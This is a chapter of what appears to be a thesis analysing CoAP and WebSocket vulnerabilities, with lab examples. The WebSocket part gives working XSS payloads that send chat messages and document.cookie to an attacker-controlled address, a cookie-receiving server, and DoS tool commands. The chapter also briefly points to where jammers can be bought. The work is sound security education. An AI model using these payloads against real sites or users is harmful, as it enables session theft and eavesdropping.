	\chapter{Vulnerabilities and attacks}\label{ch:vuln}
	In this section we analyze the vulnerabilities of both CoAP and WebSocket, we also show some attacks;
	where possible we also show some snippet of code.\\
	In case you are interested in reproducing the examples the complete code is available on GitHub at this link:\\ \url{https://github.com/TheRealLolloFake/tesi}\\
	For each example we will describe how to configure environment and list down the required tools.\newline
	
	\section{Terminology}
	In this short section we list the most common attacks, considering that these terms will be recurrent from now on.\newline
	
	A \emph{Denial of Service} (DoS) is a particular attack that tries to make a machine or a resource unavailable, this
	attack is carried out, for instance, by sending a huge amount of requests to an endpoint.\newline
	A more efficient variant of a DoS is the \emph{Distributed Denial of Service} (DDoS), the main goal is the same but it is achieved
	with the collaboration of two or more clients that perform a huge amount of requests to an endpoint.\newline
	
	A \emph{Man in the Middle} (MitM) is an attack where the attacker intrudes in a communication between two endpoints
	and act as third party capable of receiving, modifying and forwarding messages.\newline
	A MitM is difficult to discover because it is silent, but it is possible to detect an intruder by analyzing
	the latency in the communication.\\
	
	
	A well known attack is the \emph{buffer overflow}, which exploits the wrong handling of the memory by a program, usually when a buffer
	overflow happens the program crashes because some  important content has been overwritten.
	If the content provided by an attacker is specifically crafted, it could lead to the execution of arbitrary code
	and the corruption of the system; this particular attack is quite common programs written in assembly, C or C++ because the programmer must take care of the memory handling.\newline
	
	With the term \emph{injection} we mean the introduction of \emph{something} by an attacker, an injection
	can be classified as:
	\begin{itemize}
		\item SQL injection - when part of SQL syntax is added to a query.
		\item URL injection - when malicious code is added via URL.
		\item DOM injection - when DOM elements hide malicious content.
		\item Code injection - when code is injected inside another application.
	\end{itemize}
	
	A \emph{cold boot attack} is a particular technique that relies on the data remanence property of the RAM, basically when
	a system is shut down some data remains in memory for a little amount of time.
	If the attacker, with the aid of liquid nitrogen or similar tools, is capable of reducing the temperature, he can extend the time window in which data remains in memory, then with the aid of special tools he can dump the memory.\newline
	
	\emph{Cross-site scripting} (XSS) is a vulnerability found in web applications.\\
	XSS allows attackers to inject client-side script into web pages viewed by other users, there are two kind of XSS vulnerabilities:
	reflected and persistent, the first are common and the malicious content is present only on the target browser.
	A persistent XSS vulnerability is more difficult to discover and more dangerous because the malicious content is saved on the server and spread around to multiple users.\\
	
	
	\section{CoAP vulnerabilities and attacks}
	In an IoT environment, the data sent from a constrained device to a server are, most of the time, the measures taken by a sensor or an array of sensors; the server collects this data, which will be sooner or later processed in some way.\newline
	In this particular scenario an attacker may have nothing interesting to steal in the communication between a device and the server, but it is important to avoid the forwarding of fake messages.\newline
	Another possible scenario is the opposite of the previous one: the server sends data to devices. This could be the typical scenario of a production line, where the server sends the parameters in order to customize the production. Here  it is quite important to keep the parameters secure in order to avoid industrial espionage that could advantage competitors.\newline

	\subsection{Denial of Service}
	In this section we analyze possible denial of service attacks on both client and server side.
	
	\paragraph{DoS on the client}
	\begin{figure}
		
\includegraphics[width=\linewidth]{coap-vuln-img0.png}
		\caption{Example of possible DoS on the client side.}
		\label{fig:coap-vuln0}
	\end{figure}
	A denial of service can be carried out as illustrated in Figure \ref{fig:coap-vuln0}.\newline
	
	We assume the following:
	\begin{itemize}
		\item The attacker is capable of intercepting messages.
		\item The attacker can respond faster than the server.
		\item The client is badly programmed and will block if it cannot send the data successfully.
	\end{itemize}

	For the client we assume the following behavior:
	\begin{lstlisting}
	//Language: pseudo-code
	
	var measure=takeMeasure();
	
	while(send(measure,server));
	
	//perform other tasks
	\end{lstlisting}
	
	If the attacker intercepts a CON message, and can forge a RST message with a spoofed IP pretending to be the server, the client will be tricked and could not proceed with the other tasks.\newline
	In this case we exploited the fact that the client assumes that its request will be fulfilled sooner or later, and
	without taking into account that an attacker could perform a DoS.\newline
	
	Even if the server sends an ACK it will be ignored because the client would have already received the RST message, so the ACK is ignored.\newline
	
	In this particular example, we are carrying out the denial of service on the constrained device, but there are two interesting consequences to discuss:
	\begin{enumerate}
		\item The constrained device will try definitely to send the data; this could flood the server with the same data for a very long time.
		\item The constrained device is likely to exhaust its energy quickly, due to the continuous attempts of sending data and receiving the proper response from the server.
	\end{enumerate}

	In the first case, if the server stores the received data it may exhaust its memory or use a old data that is considered fresh; suppose that we are dealing with a nuclear reactor that has a thermometer. If at 9.00 AM the temperature was correct but it increased a lot after one hour, then the server will still receive the old one and will not notice the imminent risk that could lead to a disaster if a counter measure is not taken in time.\newline
	
	In the second case, if the constrained device exhausts its energy then the server may not proceed with its task due to the lack of data.\newline
	
	In a constrained device, a low level language is likely to be used, this means that lots of convenient features likes asynchronous methods or callbacks are not implemented. So if you want to use them, you must take care of implementing them by yourself taking account that the resources are limited. A simpler approach on the code may be mandatory, making ,for instance, the infinite while loop, which tries to send the data, the only possible viable way.\newline
	
	\subsection{DoS on the server}
	Performing a DoS on the server is a bit easier because the attacker does not need to intercept messages but can simply send a lots of messages to the server.\\
	Anyway, a server can be difficult to turn it down, because its computational power.\\
	
	We assume that a server has a computational power that is higher than a common desktop computer, so an attacker may not be capable of carrying out a successful DoS alone, it may need one or more machines to perform a distributed denial of server in order to overwhelm the server.\newline
	Figure \ref{fig:coap-vuln1} illustrates the difference between a DoS and DDoS.
	
	\begin{figure}
		
\includegraphics[width=\linewidth]{coap-vuln-img1.png}
		\caption{On the left the schematization of a DoS, on the right a DDoS.}
		\label{fig:coap-vuln1}
	\end{figure}

	Avoiding a DoS is not simple, the fact that CoAP uses UDP as underlying protocol makes the process of performing DoS simpler because UDP is a fast protocol by design.\newline
	
	Identifying a DoS is difficult because a server may receive lots of requests that are totally legal, for example: when a new service is made available to the public, it is possible to experience a DoS because the server is not capable of handling the amount of requests, this happens when the development team underestimates the number of users interested in the new service.\newline
	Blocking incoming request from a certain IP is not a good idea because NAT (Network Address Translation) is massively used, thus different clients could be identified by the same IP when they reach the server. So by blocking a certain IP address some legitimate user may not be able to reach the server.\newline
	While dealing with an IoT system, the simplified architecture of the system could be the one illustrated in Figure \ref{fig:coap-vuln2}, where the CoAP server does not communicate directly with the client. In this particular case blocking some IP addresses could be a good choice, if the CoAP server is designed to communicate only with the constrained devices and the HTTP server, then there is no need to allow communication from other IP addresses.\newline
	Anyway, the HTTP server may be vulnerable to a DoS attack, and by attacking it, it could be possible to generate a high traffic between the two servers and create a denial of server even on the CoAP side.\newline
	
	\begin{figure}
		
\includegraphics[width=\linewidth]{coap-vuln-img2.png}
		\caption{Possible architecture of an IoT application.}
		\label{fig:coap-vuln2}
	\end{figure}
	
	IoT systems that deal with serious tasks like health monitoring, or the previous example of the nuclear reactor, must have DoS prevention system in order to continue the execution of the main task.\newline
	It could be a good idea to isolate the IoT system from the Internet in order to avoid incoming unwanted request, the HTTP server will always be reachable, but if it sends too much requests to the CoAP server, then it should be blocked for a certain amount of time. Of course, this will make the system unavailable, but at least the main task is preserved.\newline
	Mixing this idea with the well-known technique used to reduce the effects of DoS on an HTTP server could lead to a system that is resistant to DoS attacks.\newline
	
	\subsection{UDP flood}
	UDP flood is a special DoS attack, which exploits the UDP protocol; when a UDP datagram reaches its recipient, then the recipient checks if there is an application listening on a specific port for this particular packet.\newline
	If an application is listening, then it receives the packet, otherwise an ICMP Destination Unreachable packet is sent back to the sender.\newline
	
	With IPv4 the maximum UDP packet size is 65535 bytes, if an attacker starts to send a huge amount of packets to a recipient, he could easily flood the network.\newline
	Of course, when the recipient receives a message, it will reply with an ICMP Destination Unreachable packet, which will generate other traffic in the network.\newline

	A constrained device using CoAP could be vulnerable to this particular attack, as we know CoAP is based on UDP, thus the device could be the target of a UDP flood attack, and due to the limited computational resource, it would crash quickly.\newline
	
	A firewall can avoid or mitigate this attack, by simply blocking unwanted network traffic; however, the firewall could fall victim of this attack instead of the host, if it is not capable of handling a huge amount of traffic.\newline
	
	\subsection{Proxy as man in the middle}
	A proxy is a man-in-the-middle between the client and the server, which could intercepts messages and manipulate them.
	
	\begin{figure}
		
\includegraphics[width=\linewidth]{coap-vuln-img3.png}
		\caption{Man in the middle attack on CoAP.}
		\label{fig:coap-vuln3}
	\end{figure}
	
	Figure \ref{fig:coap-vuln3} illustrate where a corrupted proxy is placed, in order carry out a man in the middle attack.\newline
	
	In order to act as a man-in-the-middle an attacker should be capable of intercepting messages and avoid the forwarding of real messages to the server.\newline
	If the constrained network has a legitimate proxy, the easiest way is to take control of it in some way, since installing a physical proxy could not be feasible or may be easy to detect.\newline
	
	Another important thing to highlight is that the protocol does not enforce the proxy which receives an encrypted message from a client, must forward the message to the server in an encrypted way.
	Figure \ref{fig:coap-vuln4} illustrates the situation.\newline
	
	\begin{figure}
		
\includegraphics[width=\linewidth]{coap-vuln-img4.png}
		\caption{Insecure communication between a client and a server with a proxy in the middle.}
		\label{fig:coap-vuln4}
	\end{figure}
	
	In this case the communication is secure only on one side, but the fact that it is not secure on the other side makes it completely insecure, so an attacker could simply exploit this behavior in order to leak information from the communication if the attacker is capable of intercepting messages.\newline
	
	\subsection{Cache poisoning}
	If an attacker has taken control of a proxy, then it could manipulate its cache by caching a response forever, then clients will then receive outdated messages that could lead to wrong behavior.\newline
	Otherwise if the attacker has found vulnerabilities on the client, and it is possible to trigger them with a particular response, it could cache a special response that may lead to the crash of the constrained device or to unexpected behavior.
	
	\subsection{Random number generator}
	The CoAP protocol specifies that a token should be generated with the aid of a secure pseudo-random number generator, in order to avoid trivial and predictable token.\newline
	However, this is not possible in all situations; a secure pseudo-random number generator needs a good source of entropy, but a constrained device may lack this source.\newline
	
	Using an insecure random number generation could lead to predictable token, a simple and common PRNG could be implemented with a linear congruential generator which is defined as:
	
	\begin{align*}
	x_{n+1}=(a\cdot x_n+c)\mod m
	\end{align*}
	Where $m$ is the modulus, $a$ is the multiplier and has values in $(0,m)$, $c$ is the increment and has values in $[0,m)$.
	A linear congruential generator can be cracked easily by simply observing its output, as demonstrated \cite{rng}. \newline
	If a constrained device is known to lack a good source of entropy, it must not be used for process where this entropy is needed, for instance: if a cryptographic key is needed, then it must be generated on another system and then added to the device during the manufacturing phase.
	
	\subsection{Device and resource discovery}
	CoAP has a device and resource discovery features, they are extremely important in M2M application where, most of the time, the human hand is needed only during the deployment of the system.\newline
	
	In order to discover a CoAP server, the client must either know about the resource ahead of time, or support multicast CoAP.\newline
	A server is discoverable if it listens on the CoAP multicast address \texttt{224.0.1.187} for IPv4, \texttt{FF05::FD} for IPv6 on the default port 5683.\newline
	If a client sends a request for the CoAP resource \texttt{/.well-known/core} it should receive a response, from every reachable CoAP server on the local network.
	If an attacker can create its own CoAP server on the network, then it could act as malevolent host in the network, or even acting as a ``legitimate'' server.
	A possible attack scenario is illustrated in Figure \ref{fig:coap-vuln5}.
	
	\begin{figure}
		\centering
		
\includegraphics[width=5cm]{coap-vuln-img5.png}
		\caption{Example of resource discovery attack.}
		\label{fig:coap-vuln5}
	\end{figure}
	
	The attacker acts as a legitimate server and performs a DoS on the legal CoAP server in order to make it unreachable to the CoAP client, that tries to discover new devices.\newline
	In this way the attacker's device is the only one that can be discovered by the client;so he can trick the client and act as the legitimate server.\newline
	If we are in a scenario where the server sends parameters to a product line, and  real the server can be replaced by a malevolent version, then he can control the product line at will.\newline
	
	Dynamic device and resource discovery is useful, because there is no need to manually configure the available CoAP server, but if not done with the proper care it could lead to the scenario illustrated in Figure \ref{fig:coap-vuln5}.
	In order to avoid this kind of attack, it can be useful to allow communication only with authenticated server, but of course the convenience of dynamic discovery is lost.\newline
		

	\subsection{Physical attack}
	While dealing with physical attacks we assume the following:
	\begin{itemize}
		\item The attacker has full access to the constrained devices and in general to the entire network.
		\item The constrained devices are in an unattended environment (close or open, it makes no difference).
		\item The CoAP server and other server machines are in a closed environment, little surveillance is assumed.
	\end{itemize}
	
	\subsection{Denial of Service}
	If an attacker has physical access to constrained devices or a main CoAP server, then he can carry out a denial of service in a variety of way.\newline
	
	\subsubsection{Jamming}
	This DoS can be carried out on wired and wireless network and it requires a jammer.\newline
	A jammer is a device which transmits signals on the same radio frequencies of the target, making the communication impossible by preventing them from receiving and transmitting in the jammer’s operating range.\newline
	In order to carry out a DoS on a wireless constrained network which uses IEEE 802.11 we simply need to use a jammer that works on the 2.4GHz and 5GHz frequency range.\newline
	
	For the fact that CoAP is based on UDP, there could be high packet loss and lots of retransmission, for this reason a jamming DoS could be hard to notice.\newline
	
	A jammer could have different dimension based on how wide is its operating range, if the constrained network you want to take down is small you can use a small one that may be hidden in the environment, but remember that sooner or later the battery will exhaust and the DoS will cease; you can also use a big one with a very wide operating range, you may even place it in a different building and carry out the DoS without caring about battery life, but in this case you could take down other network and making your attack more noticeable.\newline
	
	\emph{Note:} in most of the countries, jammers are illegal and can be used only by the army or the police, but if you want you can find jammers on sale on the Internet easily, even on Amazon, but for professional tools it is better you call on to specialized retailers.\newline
	
	There is no general countermeasure against jammers, in the case of wired network, shielded cables can be used but for a wireless network there is no way to avoid a jamming DoS, the only way is to find out the source and shut it down.\newline
	
	\subsubsection{Destroying the device}
	Another simple DoS could be carried out by destroying the devices, in the way you prefer.\newline
	Of course, this approach is not stealth at all: when someone notices the malfunctioning and investigates on the environment, he will find out the smashed devices, while in the case of a jammer it could be difficult to spot the source of the problem.\newline
	Of course this technique could be applied even on the CoAP server or other machines, but assuming the server is in an environment where the attacker is more likely to be spotted, so it could be risky.\newline
	
	If the constrained network is wired, then an attacker could simply cut the cables and carry out the DoS.\newline
	
	The easiest way to secure constrained device is to turn the unattended environment into a secure environment in some way. If we are dealing with an open environment, building a fence with barbed wire around the device could be a solution, if the environment is closed then you could place a security camera or restrict the access to the area.\newline
	
	\subsection{Corrupting a device}
	For this attack we assume that the network uses the NoSec mode.\newline
	If the attacker has physical access to a device, he could corrupt it in order to act as malevolent node by sending spoofed requests around the network in order to create congestion in the constrained network.\newline
	
	The standard scenario in a constrained network is the following:
	\begin{itemize}
		\item Constrained devices send data to a CoAP server.
		\item The CoAP server receives request from the constrained devices.
		\item A desktop application communicates with the system in order to retrieve data.
	\end{itemize}

	Usually the purpose of a constrained device is sending data to the server and it may not be capable of receiving huge amount of data as response, so the response to a GET request could be difficult or impossible to handle.\newline
	
	If a corrupted device starts sending spoofed request to a CoAP server it could perform an amplification attack and redirect huge amount of data to the constrained devices in the network.\newline
	
	An attacker could also exchange a device with a malevolent one, designed to act as describe before.\newline
	
	\subsection{Forgery and data stealing}
	For this kind of attack we mean the forgery of a constrained device in order to steal some data, in this case we are interested in being silent as possible in order to avoid being noticed.\newline
	
	If we are only interested in stealing data only once, it may be not necessary to forge a device.\newline
	
	\paragraph{Cloning}
	If an attacker has physical access to a device, he may be able to clone it in order to place a modified version in the environment and act as a legitimate device.\newline
	Cloning a device could be an easy task but at the same time a difficult one, for example: on the market there are tools that can copy car keys in few seconds, but in order to clone a device the attacker may need to know perfectly its structure.
	It is important to highlight that every device is different, so there is no general techniques to clone a device.\newline
	
	\paragraph{Firmware replacement}
	Updates of constrained devices are typically carried out over-the-air; an attacker could get in the way and install malicious software if this procedure has no protection. f successful, this attack could even corrupt an entire network.\newline
	
	When we install an update it is important to verify if the update is legitimate, otherwise we could accept malevolent update from an attacker, while dealing with constrained devices the computational power available could be not enough to verify an update, as we said a constrained device could not be able to verify the authenticity of a signature, so it is plausible to assume that the device could not verify an update.\newline
	
	The network could be insecure for a variety of reasons: simply for hardware limitations or by negligence of the network administrator; a firmware replacement attack could be easy to carry out in this condition and the consequences can be serious. If the new firmware, designed by the attacker, blocks every new update, the only way to sanitize a corrupted network is to manually replace the firmware by flashing the memory of each device, this could be costly and time consuming. Another possible scenario is an attacker that crafts a firmware that steals data silently; it may require lots of time to be noticed by someone, and if the data are valuable it can be a loss of money for a company.\newline
	
	\emph{Note:} even if the communication on-the-air is encrypted, the attacker could know the keys used to communicate, so he can still carry out the attack.\newline
	
	Compared to the cloning attack, the firmware replacement attack could be easy to carry out and it only requires writing a firmware and uploads it on devices.\newline
	
	In order to securely update a device, it must be capable to verify a signature in order to check that the update is legitimate, if the device is not powerful enough an alternative way could be to update it manually by flashing the memory, but it may require some time and could be costly.\newline
	
	\paragraph{Extraction of security parameters}
	As we know a constrained device may have embedded keys and other security parameters on it, if an attacker has physical access to the device and is capable of reading its memory, he can steal keys or other security parameters.\newline
	This could be done easily with a server/desktop computer with a cold boot attack, but we are dealing with constrained devices and the physical memory may not be so easy to handle. With servers/desktop computers we have the DDRX standard and it is easier to design a special tools for dumping memory.\newline
	
	If there is no easy way to access the memory, this kind of attack could be difficult to carry out.
	On the other hand, if the device has a USB port or any other standard I/O port it could be trivial to steal sensitive data.
	
	
	\section{WebSocket vulnerabilities and attacks}
	In this section We analyze the vulnerabilities of WebSocket showing example of attacks when possible; note that
	all the examples use an unencrypted communication channel, even if it may seems trivial to use the encrypted channel
	it is not: there are lots of unencrypted applications and these examples will show you why it is important to use
	the encrypted channel.\\
	
	\subsection{Lack of client authentication}\label{sssec:lack}
	WebSocket does not specify any authentication mechanism; this allows the developer to use any suitable method.
	From a certain point of view, this is good because a developer is free to choose the method that suits well his project, on the other hand being so free could lead to flaws in the code.\newline
	The employed authentication method could be vulnerable or implemented in the wrong way, or even not implemented.\newline
	The straightforward ways are the following:
	\begin{itemize}
		\item Cookies
		\item HTTP Authentication
		\item TLS Authentication
	\end{itemize}

	But the developer could implement a homemade authentication method, if not implemented with care this could lead to vulnerabilities.\newline
	
	When you are dealing with WebSocket in a browser it is important to highlight that there is no way to add headers to the handshake message, it is possible to add the \texttt{Authorization} (but only for basic authentication), \texttt{Sec-WebSocket-Protocol} and \texttt{Cookie}.\newline
	Thus, for instance, it is not possible to use the Bearer token authentication or other authentication mechanism different from the basic authentication.\newline
	
	Let us analyze a wrong authentication method that is exploitable. Note that the example is made with ws, and not wss, because it is useless for this example to show how to add a certificate in a browser.\newline
	
	The proposed system is designed to show a page that uses a WebSocket only if the user is logged in, basically the security mechanism is based on the assumption that the WebSocket service will be only used inside the browser; we will now show that this mechanism is not secure at all.
	
	\emph{Note:} this is a toy example that allows the login with the following credential: \texttt{admin admin}, it is not supposed to be a secure login procedure, it is unsecure but it works well in order to make this example easy to reproduce.
	
	This example consists of the following files:
	\begin{itemize}
		\item login.php
		\item reserved.php
		\item Reserved.java
		\item external.js
	\end{itemize}
		
	\begin{lstlisting}[language=php]
	//reserved.php
	
	...
	
	<script>
		var placer=document.getElementById("placer");
		var ws=new WebSocket("ws://localhost:8080/");
		ws.onmessage=function(event){
			var elem=document.createElement("b");
			elem.textContent=event.data;
			placer.appendChild(elem);
		}
	</script>
	
	...

	\end{lstlisting}
	
	\begin{lstlisting}[language=Java]
	//Reserved.java

	...

	public class Reserved extends WebSocketServer  {
		
		...
		
		@Override
		public void onMessage(WebSocket arg0, String arg1) {
			arg0.send("message received!");
		}
		
		@Override
		public void onOpen(WebSocket arg0, ClientHandshake arg1) {
			arg0.send("this message should be read only by Admin");
		}

	}
	
	\end{lstlisting}
	
	The server is defined as a class that extends \texttt{WebSocketServer} and implements the following methods:
	\begin{itemize}
		\item \texttt{onClose(...)}
		\item \texttt{onError(...)}
		\item \texttt{onMessage(...)}
		\item \texttt{onOpen(...)}
	\end{itemize}
	For our example the only two implemented methods are \texttt{onOpen(...)} and \texttt{onMessage(...)}.
	
	The login page shows a login form and, when the login button is pressed, it sends a POST request to the reserved page in order to verify the login credentials and access the reserved page. If the credential are correct the access is granted, otherwise the user is redirected to the login page.\newline
	The WebSocket server sends a message when it receives a new connection and when it receives one from the client.\newline
	If the user is not able to login then we may think that the reserved data sent by the WebSocket server is safe from prying eyes, but it is not true, in fact we can create our custom client and connect to the WebSocket server without problems.\newline
	
	\begin{lstlisting}
	var WebSocketClient = require('websocket').client;
	
	var client = new WebSocketClient();
	
	...
	
	client.on('connect', function(connection) {
		connection.on('message', function(message) {
			if (message.type === 'utf8') {
				console.log('Received:'+ message.utf8Data);
			}
		});
	});
	
	client.connect('ws://localhost:8080/');
	
	\end{lstlisting}
	
	Unsurprisingly the output is:\\
	\texttt{Received: 'this message should be read only by Admin'}.\newline
	
	In order to reproduce this example these are the requirements:
	\begin{itemize}
		\item the following Java library for server side WebSocket:\url{https://github.com/TooTallNate/Java-WebSocket}
		\item The following Node.js library for client side WebSocket: \url{https://github.com/websockets/ws}
		\item A web server that support PHP like Apache; for an easy install on Windows, XAMPP is surely the best option: \url{https://www.apachefriends.org/it/index.html}
	\end{itemize}
	
	\subsection{Lack of data validation}
	
	\paragraph{Example 1} The data validation task is not done by WebSocket but by the application itself, this could lead to flaws in the code.\newline
	The validation should be done on both sides: client and server.\newline
	The simplest attack that can be performed by exploiting this lack of validation is a JavaScript code injection (client side).\newline
	A simple example is the following vulnerable web chat.\newline
	
	This example consist of the following files:
	\begin{itemize}
		\item page.html
		\item chat.js
		\item ChatServer.js
	\end{itemize}

	\begin{lstlisting}
	//chat.js
	var chatbox=document.getElementById("chat");
	var i=0;
	
	function addMsg(msg){
		chatbox.innerHTML+="<div>"+msg+"<div><br>";
	}
	
	...
	
	\end{lstlisting}
	
	\begin{lstlisting}[language=Java]
	// ChatServer.java
	
	...
	
	public class ChatServer extends WebSocketServer  {
	
		private WebSocket arr[]=new WebSocket[2];
		private int i=0;
		
		...
		
		@Override
		public void onMessage(WebSocket arg0, String arg1) {
			if(arg0.getRemoteSocketAddress().equals(arr[0].getRemoteSocketAddress())){
				arr[1].send(arg1);
			}else{
				arr[0].send(arg1);
			}
		}
		
		@Override
		public void onOpen(WebSocket arg0, ClientHandshake arg1) {
			if(i>arr.length){
				arg0.close();
				return;
			}
			arr[i++]=arg0;
		}
		
		...
	}
	
	\end{lstlisting}
	
	The HTML page shows the messages and a little form to write and send a message.\newline
	The JavaScript code handles the interface and the WebSocket connection, when the button is clicked by the user, the message is added to the chatbox and sent to the WebSocket server that will forward it to the other client (if present).\newline
	The Java code creates a WebSocket server that handles only two connections and simply acts as a proxy between the two clients.\newline
	Neither the client nor the server performs a check of the incoming data, from the point of view of the server it is not a problem, it does nothing more than simply forwarding the message to the other client, but we could say that it is not guaranteeing a secure communication between the two clients.\newline
	On the other hand the client is severely at risk, in fact if client A is chatting with client B, and client B sends the following message:\newline
	
	\begin{lstlisting}[language=html]
	<img src=1 hidden onerror=”alert('HACKED!!')”>
	\end{lstlisting}
	
	Then an alert box will appear on the other browser (even on the client which sent the message).
	In this case the other client is left unharmed, but if the code placed inside the \texttt{onerror} callback is a bit more complex it can create serious harm to the client, for example we could open another WebSocket connection in order to spy the user, for example:
	
	\begin{lstlisting}[language=html]
		<img src=1 hidden onerror="var badws=new WebSocket('ws://10.0.3.40:8080/'); function send(){var msg=document.getElementById('msg').value;addMsg(msg);ws.send(msg);badws.send(msg);} var tmp=document.getElementById('send'); tmp.onclick=send;">
	\end{lstlisting}
	
	In this example we create a new WebSocket and define again the \texttt{send(…)} function, adding \texttt{badws.send(msg)} in order to forward the message to another server.
	The code for the malicious server is very similar to the code of the legitimate WebSocket server, it only writes on the console the received messages.
	
	In order to avoid trivial attacks like this one, the client should always check incoming data, and sanitize it properly.
	Another possible way to avoid an attack like that is to perform a sanitization on server side; in such a way the server acts as a proxy that secure the messages. Of course, the client must still check the incoming data, assuming that the server is not compromised is a strong assumption.\newline
	
	In order to reproduce this example you only need the following Java library for server side WebSocket: \url{https://github.com/TooTallNate/Java-WebSocket}.
	
	
	\paragraph{Example 2} We now show an example that could leak important information contained in a cookie, for example the session id. If an attacker is capable of stealing your id, he can access the website with your credentials without the need of knowing your username and password.\newline
	
	\texttt{Note:} again the login procedure is not secure, the focus is not on it and it is as simple as possible in order to make this example easy to reproduce.\newline
	
	The login page is the same seen before in example 1, the reserved page is similar but it allows the access with the following credentials:
	\begin{itemize}
		\item \texttt{pippo pippo}
		\item \texttt{pluto pluto}
	\end{itemize}
	The page includes the code of the previous chat example, the Javascript code is the same and even the Java server code.\newline
	
	In order to steal the cookie we need to send the following message:
	\begin{lstlisting}
		<img src=1 hidden onerror=" document.location='http://10.0.3.40:8090/stealer?v='+document.cookie;">
	\end{lstlisting}
	
	
	The cookie is sent over, so the malevolent server is capable of stealing it.\newline
	
	\begin{lstlisting}
		//
		var http = require('http');
		
		var server = http.createServer(function (req, res) {
			console.log("Cookie retrived:"+req.url);
			res.end('! HACKED !');
		})
		
		server.listen(8090,'10.0.3.40');
	\end{lstlisting}
	
	
	The output of the server is something like:
	
	\texttt{Cookie retrived:/stealer?v=PHPSESSID=vcqqs219ns7b4naui67bmug}.\newline
	
	Opening a new WebSocket will not automatically give you the cookie, in fact the cookie is sent over if the host is the same of the web page, and our malevolent server is likely to be on a different address. Using the \texttt{document.cookie} in order to create a false cookie is not that easy because the browser avoids the creation of cookie related to other domains.
	But it is possible to send the cookie via WebSocket with a simple invocation of the send(…) method, in fact with this script it is possible to trick a client:
	
	\begin{lstlisting}
		<img src=1 hidden onerror="var badws=new WebSocket('ws://10.0.3.40:8090/'); badws.onopen=function(event){ var tmp=document.cookie;badws.send(tmp);}">
	\end{lstlisting}

	
	The malevolent WebSocket code is equal to the other just seen before; it simply receives the cookie and stores it.\newline
	This approach is better because it is silent; the previous one was easy to notice by a user simply because the page in front of him changed.\newline
	Note: this is a special because the cookie used by PHP via JavaScript, there are case where a Cookie cannot be retrieved by \texttt{document.cookie} and this does not allow an attacker to steal precious data from a client.
	In order to avoid the retrieval of a cookie by JavaScript, it must be marked with \texttt{HttpOnly} flag.
	Remember that even if you store data in the \texttt{SessionStorage} you are not safe at all because an attacker could access it.
	With these two examples is clear how data validation is important and must be performed in order to avoid serious attacks.
	
	\subsection{Denial of Service}
	There are various implementation of server side WebSocket and we will see which one is vulnerable and which is not.\\
	These are the implementations taken under examination:
	\begin{itemize}
		\item Java  - \url{https://github.com/TooTallNate/Java-WebSocket}
		\item Node.js - \url{https://www.npmjs.com/package/websocket}
	\end{itemize}

	Our setup to simulate a DoS is the following: one server, one client which performs the attack, another client which test the availability of the service.\\
	The server machine has the following technical specifications:
	\begin{itemize}
		\item OS: Windows 10 Pro 64-bit
		\item Processor: Intel Core i5 3230M 2.60Ghz (2 Core, 4 Thread)
		\item Memory: 4GB RAM DDR3 798Mhz
		\item Network adapter: Broadcom 802.11n Network Adapter - IEEE 802.11 a/b/g/n
	\end{itemize}

	While the attacker machine:
	\begin{itemize}
		\item OS: Windows 10 Pro 64-bit
		\item Processor: Intel Core i5 3570K 3.40Ghz (4 Core, 4 Thread)
		\item Memory: 8GB RAM DDR3 666Mhz
		\item Network adapter: Linksys RangePlus Wireless USB Network Adapter - IEEE 802.11 b/g
	\end{itemize}

	The technical specifications of the legitimate client are not important because it just needs to send one message to the server.\\
	As you might have notice, the server machine has less power compared to the attacker, this choice has been made in order to simulate a DoS;
	the attacker is, more or less, two times powerful.\\
	Also note that the network adapter used are not top notch, this means that the DoS attack is more easy to carry out due to the low bandwidth.\\

	The \emph{first test} is about the Java library.

	For this test we use three programs:
	\begin{itemize}
		\item \texttt{javaAtt.jar} - tries to perform a DoS by starting four threads, each one opens lots of connections.
		\item \texttt{javaServer.jar} - create a server that simply sends back messages.
		\item \texttt{testClient.jar} - opens a connection and sends a message to the server. 
	\end{itemize}

	When the server is not under attack the response time is about 47ms, while the server is under attack the legitimate client is not even able to
	establish a connection; the attack was successful but we were not able to crash the application.\\
	The service was made unavailable with just 58 connections.\\

	To start the program use the following command in a shell:
	\begin{lstlisting}
		java -jar javaServer.jar <ip>
		java -XmX8G -jar javaAtt.jar ws://<server-ip>:8080
		java -jar testClient.jar ws://<server-ip>:8080
	\end{lstlisting}

	Just for curiosity we tried to switch the server and the attacker and the results were interesting. When the connection counter reached 1098
	the legitimate client was able to open a new connection and receive a response, but with 42391ms of latency.\\
	The maxinum amount of connections was 2177, the server was still able to send a message back to the client but with a very high latency.\\
	Even if we were not able to avoid the legitimate client to establish a new connection, the latency was too high, a real application
